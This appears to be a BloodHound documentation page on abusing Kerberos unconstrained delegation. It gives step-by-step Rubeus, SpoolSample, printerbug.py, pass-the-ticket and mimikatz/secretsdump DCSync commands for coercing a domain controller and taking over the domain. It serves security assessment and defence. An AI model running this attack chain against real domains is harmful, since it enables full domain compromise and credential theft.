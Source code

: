 ---
title: CoerceToTGT
description: "The computer/user account is configured with Kerberos unconstrained delegation."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



In a standard Kerberos authentication process, when a principal accesses a Kerberos-enabled service, they present a service ticket to the service host (a computer or service account). This ticket cannot be used to authenticate against other services. However, if a computer or service account is trusted for unconstrained delegation, the principal sends their full Kerberos Ticket Granting Ticket (TGT). This TGT can be forwarded, allowing the service host to impersonate the principal across other services within the environment.

An attacker can coerce a Tier Zero computer (e.g. DC) to authenticate against the account and obtain the target's TGT. With the TGT of a DC, the attacker can perform DCSync to compromise the domain. Alternatively, the TGT can be used to obtain admin access to the target host with a shadow credentials + silver ticket attack or a resource-based constrained delegation attack.

Accounts marked as sensitive or belonging to the Protected Users group are protected against the attacks as they will not send their TGTs to accounts with unconstrained delegation enabled.

## Abuse Info

A common way for attackers to abuse unconstrained delegation is for the attacker to coerce a DC using the printspooler.

The attack will fail if the target is a member of Protected Users or marked as sensitive, as the TGT of those principals will not be sent to the principal with unconstrained delegation. You can find all the protected principals with this Cypher query:

```bash
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

There are many other coercion techniques than printspooler that can be used (see References).

The instructions provided here are for abusing a computer with unconstrained delegation. For abuse of a user, see [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html).

**Step 1: Start monitoring for TGTs**

Log in on the computer configured with unconstrained delegation and open CMD as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:<target DC DNS name> /interval:5 /nowrap
```
**Step 2: Coerce target DC**

From any host in the domain, coerce the target DC using printspooler.

Windows:

```bash
SpoolSample.exe <target DC DNS name> <compromised computer DNS name>
```
Linux:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised computer IP>

```

Rubeus will print the DC TGT as it is received.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus on any computer in the domain:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Save the TGT base64 blob as a .kirbi file:

```bash
echo "doIFvjCCBbqgAwI..." | base64 -d | tee ticket.kirbi > /dev/null
```

Convert the TGT to ccache format using ticketConverter.py:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync target domain**

Windows:

Use mimikatz to DCSync the domain from the computer where the DC TGT was injected:

```bash
lsadump::dcsync /domain:<domain.name> /user:<DOMAIN\targetuser>
```
Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

## Opsec Considerations

There is no opsec information for this edge.

## References

[Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
[Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
[Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
[(RBCD) Resource-based constrained](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
[Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
[Rubeus](https://github.com/GhostPack/Rubeus)
[SpoolSample](https://github.com/leechristensen/SpoolSample)
[mimikatz](https://github.com/gentilkiwi/mimikatz)
[printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
[ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py)
[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
